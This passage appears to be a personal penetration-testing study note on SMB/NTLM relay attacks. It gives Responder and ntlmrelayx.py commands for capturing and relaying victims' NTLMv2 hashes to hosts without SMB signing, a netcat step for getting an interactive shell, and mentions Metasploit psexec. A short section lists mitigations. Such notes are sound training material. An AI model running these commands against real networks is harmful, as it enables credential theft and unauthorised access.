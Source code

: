 Now we can run responder:
```bash
sudo responder -I eth0 -dwP
```


## Step 3: setup relay

To setup our relay we can use a script called `ntlmrelayx.py`:
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
- ![[Pasted image 20241217161801.png]]



## Step 4: Trigger an event
Example we request on network at 
```bash
\\10.8.0.2
```


![[Pasted image 20241217153913.png]]


**==In this case we force the victim to send us his credentials as NTLMv2 hash value. But we don't crack it.**==

==**We resend them directly to a host that has the SMB Signing disabled.==**
## Step 5: analyse traffic
At this point we can analyse traffic to see if something is captured on the relay:
- ![[Pasted image 20241217162034.png]]



To gain a shell we can change the command to:
```shell
sudo ntlmrelayx.py -tf targets.txt -smb2support -i 
```

And then run on the attack machine:
```bash
nc 127.0.0.1 11000
```


## Mitigation
To mitigate SMB relay we can:
- **==Enable SMB signing on all devices==**
- ==**Disable NTML authentication**== on the nework (but if kerberos stops then it turn back to NTLM )
- Tier the account (limit domain admins to specific tasks)
- Restrict local admin

## Gain shell access with credentials cracked
**==We can gain a shell acces using metasploit with==** `exploit/windows/smb/psexec`. We just need to set the information:
- ![[Pasted image 20241217163749.png]]
